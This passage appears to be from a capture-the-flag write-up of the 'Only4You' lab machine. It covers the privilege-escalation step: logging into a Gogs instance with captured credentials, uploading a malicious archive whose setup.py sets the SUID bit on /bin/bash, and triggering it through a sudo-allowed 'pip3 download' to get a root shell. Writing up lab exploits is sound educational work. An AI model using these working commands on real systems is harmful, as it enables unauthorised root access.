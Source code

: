 After logging in to Gogs with John's credentials, we discovered a private repository named "Test". We made this repository public to allow the `pip3` command to access it.

![Make repository public](privesc-gogs-public.png)

We then created a malicious archive, `exploit.tar.gz`{:.filepath}, containing a setup script with a payload to achieve privilege escalation using a SUID shell.

```bash
# Create malicious archive
mkdir exploit
echo "__import__('os').chmod('/bin/bash',0o4755);" > exploit/setup.py
tar -czf exploit.tar.gz exploit
```
{:file="bryan@red_team" .nolineno}

We uploaded the malicious archive to Gogs and committed the changes.

![Upload our malicious archive](privesc-gogs-upload.png)

Next, we triggered the privileged code execution with John's sudo rights to execute our malicious script.

```bash
# Triggering privileged code execution
sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/Test/raw/master/exploit.tar.gz
bash -p # We are now root!
```
{:file="john@only4you" .nolineno}

With successful privilege escalation, we gained root access to the target machine, read the root flag at `/root/root.txt`{:.filepath} and normalized the SUID bash executable.

```bash
# Read root flag & clean up after ourselves
cat /root/root.txt
chmod -s /bin/bash
```
{:file="root@only4you" .nolineno}
